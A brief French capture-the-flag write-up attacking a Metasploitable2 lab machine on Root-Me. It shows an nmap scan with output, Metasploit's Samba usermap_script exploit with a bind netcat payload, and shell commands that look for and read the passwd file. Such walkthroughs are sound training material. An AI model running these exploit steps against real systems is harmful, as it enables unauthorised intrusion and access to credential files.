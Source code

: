 # Metasploitable2

## Trouver IPv4 de la machine 

ping -c 3 ctf25.root-me.org<br>

## Scan des ports pour trouver service(s) vulnérable(s)

nmap -Pn -sV 163.172.228.174<br>
PORT     STATE    SERVICE     VERSION<br>
21/tcp   open     ftp         vsftpd 2.3.4<br>
22/tcp   open     ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)<br>
23/tcp   open     telnet      Linux telnetd<br>
25/tcp   filtered smtp<br>
53/tcp   open     domain      ISC BIND 9.4.2<br>
80/tcp   open     http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)<br>
111/tcp  open     rpcbind     2 (RPC #100000)<br>
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)<br>
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open     exec?<br>
513/tcp  open     login?<br>
514/tcp  open     shell?<br>
1099/tcp open     java-rmi    GNU Classpath grmiregistry<br>
1524/tcp open     bindshell   Metasploitable root shell<br>
2049/tcp open     nfs         2-4 (RPC #100003)<br>
2121/tcp open     ftp         ProFTPD 1.3.1<br>
3306/tcp open     mysql       MySQL 5.0.51a-3ubuntu5<br>
5432/tcp open     postgresql  PostgreSQL DB 8.3.0 - 8.3.7<br>
5900/tcp open     vnc         VNC (protocol 3.3)<br>
6000/tcp open     X11         (access denied)<br>
6667/tcp open     irc         UnrealIRCd<br>
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)<br>
8180/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1<br>
Service Info: Host: irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel<br>

## Pentest des services

Après des tests il s'avère que le service vulnérable à une RCE est samba sur le port 445<br>
nmap --script=vuln -Pn -p 445 163.172.195.228<br>
msfconsole<br>
search samba<br>
use exploit/multi/samba/usermap_script  => Samba "username map script" Command Execution<br>

## Configuration du payload 

set rhosts 163.172.195.228<br>
set rport 445<br>
set payload cmd/unix/bind_netcat<br>
run<br>

## CLI dans la machine 

whoami<br>
pwd<br>
find / -name passwd<br>
cat passwd

flag = ...